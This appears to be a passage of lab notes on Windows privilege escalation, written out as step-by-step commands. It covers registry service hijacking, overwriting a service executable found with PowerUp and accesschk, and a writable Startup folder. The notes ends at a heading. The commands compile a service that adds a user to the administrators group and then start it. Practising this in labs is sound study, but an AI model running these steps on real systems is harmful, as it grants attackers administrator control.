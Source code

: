 - start with `powershell -ep bypass`
- from Windows machine copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to the Kali VM.
- Open ***windows_service.c*** in a text editor and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators user /add`
- Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_service.c -o x.exe` (NOTE: if this is not installed, use `sudo apt install gcc-mingw-w64`)
- Copy the generated file x.exe, to the Windows VM.
- On the Windows VM copy the generated file.exe to `C:\Temp`
- Open a command prompt and type in `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
- In the command prompt type: `sc start regsvc`
- It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt:  `net localgroup administrators`

### Escalation path: executable files

### PowerUp

- run ***PowerUp.ps1*** with SHIFT+right click and open up in command prompt
- `powershell -ep bypass` and `Invoke-AllChecks`
- in commands prompt: `copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe`
- `sc start filepermservice.exe`
- confirm that the user was added to admin group: `net localgroup administrators`

### Accesschk

### Detection:

- `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`
- who has permission set to: **FILE_ALL_ACCESS** on filepermservice.exe file

### Exploitation:

- `copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`
- `sc start filepermsvc`
- confirm that user was added to admin group: `net localgroup administrators`

### Escalation path: startup application

### Detection:

- Open command prompt and type: `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
- From the output notice that the **`BUILTIN\Users`** group has full access **`(F)`** to the directory.

### Exploitation:
